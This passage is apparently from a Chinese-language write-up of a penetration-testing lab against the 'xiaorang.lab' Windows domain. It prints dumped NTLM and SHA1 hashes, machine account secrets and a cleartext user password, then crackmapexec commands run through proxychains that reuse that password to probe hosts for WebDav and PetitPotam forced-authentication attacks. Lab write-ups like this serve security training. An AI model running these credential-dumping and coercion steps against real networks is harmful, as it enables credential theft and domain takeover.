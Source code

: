 ```plain
Username     Domain    NTLM                              SHA1
--------     ------    ----                              ----
XR-DESKTOP$  XIAORANG  3c6b049a1558b32aa6d978cc9abdd9d7  1374473614a90526f728fe8b469329d01c55d6e7
yangmei      XIAORANG  25e42ef4cc0ab6a8ff9e3edbbda91841  6b2838f81b57faed5d860adaf9401b0edb269a6f

wdigest credentials
===================

Username     Domain    Password
--------     ------    --------
(null)       (null)    (null)
XR-DESKTOP$  XIAORANG  d7 17 b7 3e 45 89 1c df 0d b6 c1 ce 72 77 cf 5f 10 94 02 1d e6 bd d6 86 ed 7a 8e c5 97 9d 3b fb a1 0a bc 72 26 fd 6c 4a 0d 2a ab 9a 9d fc 63 c4 13 4f b1 e2 7a 97 dc b8 13 5c d2 be a3 7f 0a 27 a0 a9 2b 80 85 07 76 32 ec da 89 79 01 cb 03 98 8f 4e c0 f1 76 db f5 91 09 ab db 4e 43 f4 49 a0 5b ac 7a c0 7b 82 1b bc 5f 50 2c ef c6 0f 1f 9f f0 fa 62 0d 8e 0b 32 b4 28 c8 45 95 55 82 3b 5d 7b e5 7f 4a 0d 5d 95 15 94 82 61 d4 51 80 8e db 5e 60 29 dd e6 dc bf e7 90 bc dd a0 27 c2 70 78 7c ff 12 6a 5f 7d c9 95 75 78 d1 ba 4b e8 cd a7 f8 3a 7b d0 8a 86 cb 43 88 86 ad b2 33 2e f4 b9 a7 6f 22 d9 50 42 f5 b3 e4 b4 d1 20 b7 07 5c d1 c0 53 a5 9c 64 cf ae b1 fe b6 b5 2f 80 c6 4b 88 9d ca ee b4 97 be 0e 91 74 bb f5 df da cb 07 1d
yangmei      XIAORANG  xrihGHgoNZQ

kerberos credentials
====================

Username     Domain        Password
--------     ------        --------
(null)       (null)        (null)
xr-desktop$  XIAORANG.LAB  d7 17 b7 3e 45 89 1c df 0d b6 c1 ce 72 77 cf 5f 10 94 02 1d e6 bd d6 86 ed 7a 8e c5 97 9d 3b fb a1 0a bc 72 26 fd 6c 4a 0d 2a ab 9a 9d fc 63 c4 13 4f b1 e2 7a 97 dc b8 13 5c d2 be a3 7f 0a 27 a0 a9 2b 80 85 07 76 32 ec da 89 79 01 cb 03 98 8f 4e c0 f1 76 db f5 91 09 ab db 4e 43 f4 49 a0 5b ac 7a c0 7b 82 1b bc 5f 50 2c ef c6 0f 1f 9f f0 fa 62 0d 8e 0b 32 b4 28 c8 45 95 55 82 3b 5d 7b e5 7f 4a 0d 5d 95 15 94 82 61 d4 51 80 8e db 5e 60 29 dd e6 dc bf e7 90 bc dd a0 27 c2 70 78 7c ff 12 6a 5f 7d c9 95 75 78 d1 ba 4b e8 cd a7 f8 3a 7b d0 8a 86 cb 43 88 86 ad b2 33 2e f4 b9 a7 6f 22 d9 50 42 f5 b3 e4 b4 d1 20 b7 07 5c d1 c0 53 a5 9c 64 cf ae b1 fe b6 b5 2f 80 c6 4b 88 9d ca ee b4 97 be 0e 91 74 bb f5 df da cb 07 1d
xr-desktop$  XIAORANG.LAB  (null)
yangmei      XIAORANG.LAB  xrihGHgoNZQ
```

得到两个用户，机器账号`xr-desktop$`和用户`yangmei`。

### 强制认证

靶场提示了`NTLM`，因此用`cme`看下 WebClient 和 petitpotam

```plain
proxychains ./cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M Webdav
proxychains ./cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M PetitPotam
```

[![](assets/1705989181-efebacc3c5db00bb0f28c5a0b2a7a19e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170048-bc87a4aa-b904-1.png)
